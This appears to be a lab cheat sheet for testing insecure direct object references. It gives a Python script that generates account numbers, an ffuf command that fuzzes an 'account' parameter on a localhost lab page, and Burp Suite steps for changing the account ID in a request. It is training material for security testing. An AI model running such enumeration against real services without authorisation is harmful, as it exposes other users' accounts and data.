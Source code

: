 
# Commands Used in Lab 4 🛠️

## Python Script for Payload Generation
1. **Generate Account Numbers:**
   ```python
   for i in range(1, 5000):
       print(i)
   ```
   - Save the output to a file:
     ```bash
     python3 numbers.py > nums.txt
     ```

## FFUF for Automating IDOR Testing
1. **Basic FFUF Command:**
   ```bash
   ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w nums.txt -mr 'admin'
   ```
   - **Explanation:**
     - `FUZZ`: Placeholder for account numbers.
     - `-mr 'admin'`: Match responses containing the keyword "admin."

## Burp Suite for Manual Testing
1. **Intercept and Modify Request:**
   - Capture the request:
     ```
     GET /labs/e0x02.php?account=1009 HTTP/1.1
     ```
   - Modify the parameter in Burp Suite Repeater:
     ```
     account=1009 → account=1001
     ```
